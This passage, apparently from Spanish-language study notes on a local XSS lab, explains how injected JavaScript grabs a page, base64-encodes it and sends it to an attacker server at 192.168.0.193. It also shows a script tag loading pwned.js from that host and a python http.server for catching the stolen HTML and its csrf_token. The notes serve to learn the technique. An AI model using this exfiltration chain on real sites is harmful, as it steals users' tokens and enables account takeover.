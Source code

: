 Si no definimos una, por defecto ejecutará la petición de manera **Asíncrona(TRUE)**

```javascript
// Lo primero que vamos a tratar de hacer es lanzar una petición a la pagina web y almacenar la respuesta de esa solicitud en una variable
var domain = "http://localhost:10007/newgossip";
// Creamos la petición y la mandamos por GET a la variable "domain" definida arriba
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false); // "false" para que sea una petición SINCRONA
req1.send();
```

"**false**" Esto significa que el código esperará hasta que la solicitud sea completada antes de continuar con la ejecución siguiente, esto en nuestro caso lo precisamos SI O SI ya que queremos que la solicitud llegue para poder tomar el csrf_token y almacenarlo.

-----
Ahora queremos **almacenar la respuesta en una variable**, y para ver que lo hicimos bien lo verificamos con una petición de tipo GET hacia nuestro servidor http.
Algo a tener en cuenta es que utilizaremos "**btoa();**" para pasar a base64 la respuesta, ya que de lo contrario nos lo mandaría todo en código HTML y sería MUY EXTENSO.

```javascript
// ------ENVIANDO LA PETICIÓN
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();

// ------ALMACENANDO LA RESPUESTA DE LA PETICIÓN "req1"
var response = req1.responseText;
// VERIFICACIÓN DE QUE ESTAMOS ALMACENANDO LA RESPUESTA (OPCIONAL)
var req2 = new XMLHttpRequest();
req2.open('GET', "http://192.168.0.193/?response=" + btoa(response));
req2.send();
```

Ahora lo que debemos hacer es **colocar en el panel de entrada de la web el código** que llame al archivo **pwned.js** que es el nombre del archivo que contiene el código que definimos recién.

- ``<script src='http://192.168.0.193/pwned.js'></script>``

Al montarnos nuestro servidor con ``python3 -m http.server 80`` y luego abrimos el post que contiene el código anterior, nos llegará la siguiente respuesta

![[XSS 14.png]]

Eso que está remarcado está en **base64** gracias a "**btoa();**", si nosotros lo copiamos y utilizamos 

- ``echo -n "cadena-en-base64" | base64 -d`` en nuestra consola, nos dará toda la respuesta en HTML.  =="-n" es para quitar el salto de linea al final, de lo contrario el base64 será diferente==

En esa respuesta **HTML** podremos encontrar el **csrf_token** que estamos buscando, ahora lo que necesitamos es **filtrar o parsear el campo donde se encuentra el código**, ya que es lo único que nos interesa. 
